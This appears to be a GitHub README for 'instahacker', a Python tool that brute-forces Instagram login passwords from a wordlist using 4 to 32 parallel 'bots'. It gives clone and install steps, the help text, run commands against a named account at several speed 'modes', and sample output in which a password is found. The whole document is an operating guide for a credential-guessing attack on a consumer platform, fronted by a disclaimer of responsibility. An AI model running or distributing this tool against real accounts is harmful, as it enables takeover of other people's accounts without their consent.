 # instahacker
# youtube : FR13NDS DZ
# facebook : Phoenix Pw
# github : PHOENIX7713
# twitter : ShadowDz5
# instagram : zodiac2372
# Note! : We don't Accept any responsibility for any illegal usage.

git clone https://github.com/PHOENIX7713/instahacker.git

cd instahacker

pip3 install -r requirements.txt

# Help

C:\Users\Moussa\Desktop\Instagram>python3 instahack.py -h
usage: instahack.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots

# Usage

python3 instahack.py <username> <wordlist> -m <mode>                  

# Bots(Threads)

    4 bots: 64 passwords at a time
    8 bots: 128 passwords at a time
    16 bots: 256 passwords at a time
    32 bots: 512 passwords at a time

# Modes

    0: 32 bots
    1: 16 bots
    2: 8 bots
    3: 4 bots

# Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

C:\Users\Moussa\Desktop\Instagram>python3 instahack.py Sami09.1 pass.lst -m 3

# Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

C:\Users\Moussa\Desktop\Instagram>python3 instahack.py Sami09.1 pass.lst -m 2

# Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

C:\Users\Moussa\Desktop\Instagram>python3 instahack.py Sami09.1 pass.lst -m 1

# Savage mode

This mode uses 32 bots, or 512 passwords at a time.

C:\Users\Moussa\Desktop\Instagram>python3 instahack.py Sami09.1 pass.lst -m 0

If you don't specify a mode, then mode is set to 2
# Run

[-] Wordlist: pass.lst

[-] Username: Sami09.1

[-] Password: 272

[-] Complete: 45.51%

[-] Attempts: 228

[-] Browsers: 273

[-] Exists: True

# Stop

[-] Wordlist: pass.lst

[-] Username: Sami09.1

[-] Password: Sami123

[-] Complete: 62.67%

[-] Attempts: 314

[-] Browsers: 185

[-] Exists: True

[!] Password Found

[+] Username: Sami09.1

[+] Password: Sami123
